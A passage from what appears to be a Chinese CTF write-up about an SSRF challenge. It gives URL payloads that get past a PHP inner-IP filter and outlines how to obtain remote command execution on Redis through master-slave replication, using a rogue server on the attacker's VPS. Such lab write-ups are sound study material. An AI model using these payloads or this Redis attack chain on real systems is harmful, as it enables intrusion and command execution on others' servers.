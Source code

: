 ```php
    return ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16;
}

function safe_request_url($url)
{

    if (check_inner_ip($url))
    {
        echo $url.' is inner ip';
    }
    else
    {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        $output = curl_exec($ch);
        $result_info = curl_getinfo($ch);
        if ($result_info['redirect_url'])
        {
            safe_request_url($result_info['redirect_url']);
        }
        curl_close($ch);
        var_dump($output);
    }

}
if(isset($_GET['url'])){
    $url = $_GET['url'];
    if(!empty($url)){
        safe_request_url($url);
    }
}
else{
    highlight_file(__FILE__);
}
// Please visit hint.php locally.
?>
```
发现存在parse_url，可以利用curl和parse_url的解析差异来绕过
payload：`?url=http://@127.0.0.1:80@www.baidu.com/hint.php`
但发现在curl较新的版本修复了，这里使用`0.0.0.0`，表示整个网络，可以代表本机 ipv4 的所有地址
![](https://img-blog.csdnimg.cn/7277cc35242e41c892a75f01baae27b1.png)
`?url=http://0.0.0.0/hint.php`
得到hint.php源代码：
```php
<?php
if($_SERVER['REMOTE_ADDR']==="127.0.0.1"){
  highlight_file(__FILE__);
}
if(isset($_POST['file'])){
  file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);
}
```
发现redispass为root，那么是要利用主从复制来打Redis了
[https://github.com/xmsec/redis-ssrf](https://github.com/xmsec/redis-ssrf)
[https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)
需要使用redis-rogue-server项目中的exp.so，通过选择不同的mode选项可以选择不同的攻击方式。这里我们选择mode 3，通过主从复制在目标主机上执行命令。需要修改一下几个地方：
- 将 lhost 改为攻击者vps的ip，用于控制目标Redis服务器连接位于攻击者vps上6666端口上伪造的恶意Redis主机
- 将command修改为要执行的命令
- 将第140行的 127.0.0.1 改为 0.0.0.0 ，用于绕过题目对于内网IP的限制
- 最后在第160行填写上Redis的密码 root